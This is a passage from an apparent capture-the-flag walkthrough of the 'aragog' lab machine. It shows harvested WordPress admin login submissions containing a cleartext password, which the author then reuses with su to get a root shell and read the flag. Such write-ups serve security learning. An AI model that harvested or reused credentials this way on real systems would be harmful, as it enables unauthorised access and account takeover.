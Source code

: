 Now wait until the minute rolls around…

```

florian@aragog:/dev/shm$ cat df
Array
(
    [log] => administrator
    [pwd] => sdf
    [wp-submit] => Log In
    [redirect_to] => http://aragog/dev_wiki/wp-admin/
    [testcookie] => 1
)
Array
(
    [pwd] => !KRgYs(JFO!&MTr)lf
    [wp-submit] => Log In
    [testcookie] => 1
    [log] => Administrator
    [redirect_to] => http://127.0.0.1/dev_wiki/wp-admin/
)

```

## root Shell

With cliff’s creds, try to su as him:

```

florian@aragog:/var/www/html/dev_wiki$ su cliff
Password:
su: Authentication failure

```

What about root?

```

florian@aragog:/var/www/html/dev_wiki$ su
Password:
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
sh: 0: getcwd() failed: No such file or directory
root@aragog:/var/www/html/dev_wiki# cd /home/cliff
chdir: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@aragog:/home/cliff#

```

Nice!

```

root@aragog:~# ls
restore.sh  root.txt
root@aragog:~# wc -c root.txt
33 root.txt
root@aragog:~# cat root.txt
9a9da52d...

```
